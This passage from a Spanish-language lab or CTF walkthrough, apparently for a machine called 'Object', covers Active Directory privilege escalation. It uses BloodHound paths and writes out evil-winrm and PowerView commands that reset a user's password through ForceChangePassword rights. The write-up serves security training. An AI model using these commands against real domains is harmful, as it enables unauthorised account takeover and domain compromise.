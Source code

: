 Vemos que María forma parte de "Remote Management Users" y "Domain Admins". Luego vamos a la carpeta users, hacemos dir y nos muestra un usuario smith.

## Escalada de privilegios (Smith)

Al ejecutar la consulta de ruta más corta al administrador del dominio, podemos ver una ruta de oliver a smith en la que podemos cambiar la contraseña de smith. Así que esto sería "abusing ForceChangePassword". Además smith tiene opciones de escritura en maria y maria es propietaria del administrador de dominio.

![María en BloodHound](/secciones/posts/imagenes/object/maria1.webp)

Vamos a la consola evil-winrm con acceso y lanzamos:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Luego buscamos en Google powerview.ps1 powersploit, lo descargamos y lo pasamos a la víctima:

```powershell
upload /home/kar/maquinas/object/PowerView.ps1
```

Importamos los módulos:

```powershell
Import-Module .\PowerView.ps1
```

Luego volvemos a BloodHound y usamos la sección:

```powershell
Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```
